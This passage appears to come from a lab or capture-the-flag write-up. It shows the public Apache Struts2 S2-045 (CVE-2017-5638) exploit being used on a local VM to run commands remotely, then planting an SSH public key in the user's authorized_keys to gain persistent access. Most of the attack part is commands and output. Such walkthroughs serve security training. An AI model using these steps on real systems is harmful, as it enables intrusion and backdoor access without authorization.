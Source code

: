 ```console
Apache Struts < 1.3.10 / < 2.3.16.2 - ClassLoader Manipulation Remote Code Execution (Metasploit)             | multiple/remote/41690.rb
Apache Struts2 2.0.0 < 2.3.15 - Prefixed Parameters OGNL Injection                                            | multiple/webapps/44583.txt
-------------------------------------------------------------------------------------------------------------- ---------------------------------
```

We copy the exploit to our current directory.

```console
root@kali:~$ searchsploit -m linux/webapps/41570.py
```

## Exploitation
### Remote Code Execution 

Apache Struts 2 versions 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 remote code execution exploit that provides a reverse shell.

We run the script adding as parameter the URL and the id command.

```console
root@kali:~$ python 41570.py http://192.168.56.104:8080/struts2_2.3.15.1-showcase/showcase.action id
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: id

uid=1000(ta) gid=1000(ta) groups=1000(ta),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

The command was successfully executed, we can try to get a reverse shell, but I prefer to access via SSH.

```console
root@kali:~$ python 41570.py http://192.168.56.104:8080/struts2_2.3.15.1-showcase/showcase.action "mkdir /home/ta/.ssh"
```

We generate the SSH key pair.

```console
root@kali:~$ ssh-keygen -P "ta123" -f id_rsa
```

We create the authorized_keys file with the the public key inside the ssh directory in the ta's home directory.

```console
root@kali:~$ python 41570.py http://192.168.56.104:8080/struts2_2.3.15.1-showcase/showcase.action "echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDXzybvylP8i
qZivblk2Ezss0lYM4TsTMscRB1Hy9cy2r6Z4lXUv1Z5Y2cEuha/9YQ6O1w51f3iCBtWQUi+feKvlqhL6q8FEsF3ju4cdiD87rMPOHia1M4MYJoU4CEcN8Y8u1IN35Uvn+NBz+rad2ESwlbvsa3dBotTHWGvLR140HE1k
qzrejm2z42DSE356qkY2I4+2xLoHtfQiIAVPl5p9YGcjwDs4NWeYFRZ8RbMYnW7pVD6Bj+hQedOn9uPM+wm1dUh+ZiEwgGFSeeKWvfR7N0LQ69+YhK0gAPY//6NiK300UFpGWW6D+RNyAq9+3zovqini3XPfnfLrhHtG
vMbuN4Yzp9+g8N7Pz8nWXBLo/V3Yufxw99j7y3Rwj4LUVrGqWi7HUkQFSK/kIzUU81wJ54x+JrtToBuXIFl57fXz23NfBLsJMIIjYykTmbUGaTDWpmm2fRoCMdGQmr3EASDpvzuZSNsvVr5wqCSQ0CrJ3+NM3sKEqwZR
ItFaad4mhE= > /home/ta/.ssh/authorized_keys"
```
